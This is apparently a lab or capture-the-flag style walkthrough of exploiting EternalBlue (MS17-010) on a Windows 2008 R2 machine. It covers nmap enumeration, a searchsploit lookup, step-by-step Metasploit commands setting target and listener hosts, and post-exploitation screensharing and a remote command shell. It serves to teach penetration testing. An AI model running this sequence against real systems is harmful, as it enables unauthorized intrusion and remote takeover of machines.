


# Eternal Blue

## Scanning & Enumeration

```bash
nmap -sV -A -F -T5 -Pn -n --disable-arp-ping 192.168.5.101 --min-rate 300  
```

-sV                                    Scan Version

-A                                      Advance Scan

-F                                      Scan Top 100 Ports

-T5                                    Fast Scan

-Pn                                   Disable Host Discovery

-n                                      Disable DNS Recovery

\--disable-arp-ping       Prevents ARP Ping

\--min-rate 300             Ensure 300 packets for second           &#x20;

<figure><figcaption><p>Nmap Scan</p></figcaption></figure>

## Searching For Vulnerabilities

Port 445 which is SMB service is open. Let's check for vulnerabilites in Microsoft Windows 2008 R2 Server.

```bash
searchsploit smb | grep -i "2008 R2"
```

<figure><figcaption><p>Searchsploit smb</p></figcaption></figure>

There is a SMB Remote code Execution (MS17-010) vulnerability named as EternalBlue.

## Gaining Access ( Exploitation )

```
msfconsole
```

### Login To Metasploit Framework

<figure><figcaption><p>Metasploit Framework </p></figcaption></figure>

### Search Vulnerability "EternalBlue"

```
search EternalBlue type:exploit
```

<figure><figcaption><p>search EternalBlue</p></figcaption></figure>

```
use 0
show options
```

<figure><figcaption><p>Exploit Options</p></figcaption></figure>

```bash
set rhost 192.168.5.101
set lhost 192.168.5.128
exploit
```

<figure><figcaption><p>Exploited Machine</p></figcaption></figure>

## Post Exploitation

```
screenshare
```

<figure><figcaption><p>Live Feed Of the Exploited Machine</p></figcaption></figure>

```
shell
```

Gives the Windows CMD shell.
